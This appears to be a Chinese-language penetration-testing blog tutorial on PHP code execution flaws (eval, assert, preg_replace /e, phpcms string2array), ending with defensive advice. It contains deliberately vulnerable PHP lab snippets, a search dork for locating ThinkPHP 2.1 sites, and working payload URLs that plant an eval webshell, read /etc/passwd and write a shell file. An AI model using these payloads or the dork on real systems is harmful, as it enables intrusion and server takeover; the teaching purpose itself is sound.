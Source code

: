 ```yaml
---
draft: false
date: 2016-07-25 22:32:51
title: 代码执行漏洞(一)
description: 
categories:
  - Pentest
tags:
  - rce
---
```


### 0x00 代码执行
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。

### 0x01 相关函数
```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
* 执行代码
* 让网站写shell
* 甚至控制服务器

### 0x04 漏洞分类(也是利用点)
```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数1](/img/post/code_execution_eval1.png)

* 示例二
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数2](/img/post/code_execution_eval2.png)

* 示例三
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数3](/img/post/code_execution_eval3.png)
![代码执行漏洞使用eval函数4](/img/post/code_execution_eval4.png)

* 示例四
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数5](/img/post/code_execution_eval5.png)
![代码执行漏洞使用eval函数6](/img/post/code_execution_eval6.png)

* 示例五  
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)
```php
<?php
    $data = $_GET['data'];
    $ret = preg_replace('/<data>(.*?)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
![代码执行漏洞使用preg_replace函数](/img/post/code_execution_preg_replace.png)

### 0x07 具体操作
```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

#### 下一篇：[代码执行漏洞(二)](/posts/2016/code-execution-vulnerabilities-2/)
